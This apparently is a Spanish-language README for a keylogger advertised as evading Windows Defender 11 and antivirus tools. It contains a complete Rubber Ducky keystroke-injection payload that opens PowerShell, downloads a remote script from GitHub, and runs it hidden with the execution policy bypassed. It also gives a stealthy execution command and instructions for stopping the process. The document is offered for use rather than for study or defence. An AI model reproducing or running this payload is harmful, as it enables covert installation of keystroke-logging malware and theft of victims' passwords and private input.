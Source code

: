 ***Keylogger con evasión de Windows Defender 11 y Antivirus.***

# ---------------------------------------------------------
# By R.G.M - 2025
# ---------------------------------------------------------


Keylogger capaz de evadir Windows Defender 11 y Antivirus.
Creado con la idea de ejecutarlo remotamente desde un rubberducky.

# ---------------------------------------------------------
# PAYLOAD para RUBBER DUCKY;
# ---------------------------------------------------------

DELAY 20
GUI r
DELAY 20
STRING cmd
ENTER	
ENTER
DELAY 20
STRING powershell
ENTER
DELAY 20
STRING Invoke-WebRequest -Uri "https://raw.githubusercontent.com/C4sp3r2222/duckylog/main/script.ps1" -OutFile "$env:USERPROFILE\Desktop\script.ps1"
ENTER
DELAY 300
STRING powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File C:\Users\$env:USERNAME\Desktop\script.ps1' -WindowStyle Hidden -ErrorAction SilentlyContinue"
ENTER


# ---------------------------------------------------------
# EJECUCION en Powershell en modo sigiloso y persistente:
# ---------------------------------------------------------

powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File C:\Users\$env:USERNAME\Desktop\script.ps1' -WindowStyle Hidden -ErrorAction SilentlyContinue"

# ---------------------------------------------------------
# DETENCION DE SCRIPT:
# ---------------------------------------------------------

# Ejecutar en Powershell:
Get-CimInstance Win32_Process | Where-Object { $_.CommandLine -like '*script.ps1*' } | Select-Object ProcessId, CommandLine

# (Veremos un numero de proceso asociado Ej: 1234 )

# Para detenerlo, ejecutar en powershell:
Stop-Process -Id 1234 -Force

# (Detenemos el proceso)
